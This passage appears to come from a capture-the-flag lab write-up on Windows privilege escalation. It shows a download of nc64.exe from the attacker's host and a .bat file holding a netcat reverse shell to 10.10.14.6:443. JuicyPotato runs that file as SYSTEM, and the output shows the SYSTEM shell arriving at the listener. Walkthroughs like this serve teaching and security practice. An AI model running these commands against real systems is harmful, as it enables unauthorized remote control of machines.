     meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM



To do this without Metasploit, I can upload `nc64.exe`:



    PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/nc64.exe -outfile nc64.exe



I'll write a simple `.bat` file:



    PS C:\windows\system32\spool\drivers\color> cmd /c "echo C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 > rev.bat"
    PS C:\windows\system32\spool\drivers\color> type rev.bat
    C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 



And run JuicyPotato:



    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p "C:\windows\system32\spool\drivers\color\rev.bat" -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
    ......
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK



At my local `nc` listener:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49207.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system







